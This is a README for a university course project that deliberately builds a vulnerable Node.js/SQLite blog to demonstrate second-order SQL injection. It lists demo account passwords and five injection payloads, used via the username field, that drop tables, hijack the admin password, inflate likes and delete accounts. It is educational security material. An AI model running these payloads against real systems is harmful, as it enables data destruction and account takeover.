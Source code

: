 ### TDA602 Course Project - Second-Order SQL Injection

This project demonstrates a second-order SQL injection vulnerability in a blog website.
The code is written in Node.js and SQLite, and this is a self-made blog created and designed by us. We intentionally added some lack of security measures to make the second-order SQL injection attacks possible, allowing us to demonstrate the vulnerability and emphasize the importance of proper security practices when developing web applications.

Users can create new accounts and write blog posts after logging in. Each post can be liked once, 
and the posts are sorted by the number of likes, with the most liked posts appearing at the top. 
As an admin, you have also the privilege to remove these posts.
The second-order injection attack can be performed by registering a new account with a malicious SQL 
command in the username field and then updating the password. Further details are provided below.

## Current Accounts:

Admin - Username: "Admin", Password: "dontHack"

Ava - Username: "Ava", Password: "password1"

JARVIS - Username: "JARVIS", Password: "password2"

Skynet - Username: "Skynet", Password: "password3"


## Second-Order Injection Attacks:

To perform a second-order SQL injection attack, first register a new user with an SQL injection command as the username. 
Then, log in as the new user and update the password. Afterward, the SQL command will be executed.

Examples of second-order SQL injection attacks:

1) Change the Admin's password (not the "Admin’ —" account):

```sql
Admin' --
```

2) Drop all users:

```sql
'; DROP TABLE users --
```

3) Add likes to a specific blog post (replace id with the blog post ID you want to modify, same with amount of likes):

```sql
'; UPDATE blog_posts SET number_likes = number_likes + 10 WHERE id = 1 --
```

4) Remove the new account
```sql
' ; DELETE FROM users WHERE ROWID = (SELECT MAX(ROWID) FROM users) --
```

5) Remove last account and any other you specify
```sql
' ; DELETE FROM users WHERE ROWID = (SELECT MAX(ROWID) FROM users) OR username = "'; UPDATE blog_posts SET number_likes = number_likes + 10 WHERE id = 1 --" --
```


## Images of the blog website:

#### Login and Register:

<img src="Screenshot 2023-04-17 at 12.33.24.png" alt="My Image" style="max-width: 70%;">




#### Logged in as admin (only difference is the delete button):


<img src="Screenshot 2023-04-17 at 12.34.25.png" alt="My Image" style="max-width: 70%;">

#### Create post and update password:

<img src="Screenshot 2023-04-17 at 12.34.34.png" alt="My Image" style="max-width: 70%;">

## Run the code
To run the code, "node app.js"
